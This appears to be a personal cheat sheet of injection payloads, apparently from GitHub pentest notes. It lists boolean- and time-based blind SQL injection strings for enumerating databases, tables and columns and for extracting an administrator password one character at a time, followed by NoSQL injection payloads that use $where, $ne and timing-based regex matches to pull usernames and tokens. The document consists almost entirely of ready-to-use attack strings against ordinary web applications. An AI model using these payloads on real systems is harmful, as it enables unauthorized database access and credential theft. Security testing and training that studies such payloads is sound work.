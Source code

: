 ## Blind SQLi (Boolean) ##

Change param in url. 

PARAM VALUE' union select 1,2,3;--

PARAM VALUE' union select 1,2,3 where database() like 'a%';-- (Will help get DB)

PARAM VALUE' union select 1,2,3 from information_schema.tables where table_schema = 'DB NAME' and table_name like 'a%';-- (Will help get tables)

PARAM VALUE' union select 1,2,3 from information_schema.columns where table_schema ='DB NAME' and table_name='TABLE NAME' and column_name like 'a%'; (Will help get columns)

PARAM VALUE' union select 1,2,3 from users where username like 'a% Will help get values from table and columns)

Simple Blind Query to pull administrator password. Substring is comparing password and pulling out the 7th character and starting at posistion 1.

' AND (SELECT SUBSTRING(password,7,1) FROM users WHERE username='administrator')='$Burp Marker$;

## Blind SQLi (Time) ##

Change param in url.

### TEST for SQLI Time Based ###

PARAM VALUE' union select SLEEP(5),2;--

PARAM VALUE' union select SLEEP(5),2 where database() like 'a%';-- (Will help get DB)

PARAM VALUE' union select SLEEP(5),2 from information_schema.tables where table_schema = 'DB NAME' and table_name like 'a%';-- (Will help get tables)

PARAM VALUE' union select SLEEP(5),2 from information_schema.columns where table_schema ='DB NAME' and table_name='TABLE NAME' and column_name like 'a%'; (Will help get columns)

PARAM VALUE' union select SLEEP(5),2 from users where username like 'a% Will help get values from table and columns)

### NoSQL Injection Payloads ### 
true, $where: '1 == 1'

, $where: '1 == 1'

$where: '1 == 1'

', $where: '1 == 1'

1, $where: '1 == 1'

{ $ne: 1 }

db.injection.insert({success:1});

db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1

|| 1==1

' && this.password.match(/.*/)//+%00

' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00

'%20%26%26%20this.passwordzz.match(/.*/)//+%00

{$gt: ''}

[$ne]=1

';return 'a'=='a' && ''=='

";return(true);var xyz='a

0;return true

username=test"+((this.username.match('^b.*')) ? sleep(5000) : sleep(100))+"&password=x

username=test%22%2b((this.token.match('.*'))%20%3f%20sleep(3000)%20%3a%20sleep(100))%2b%22&password=x

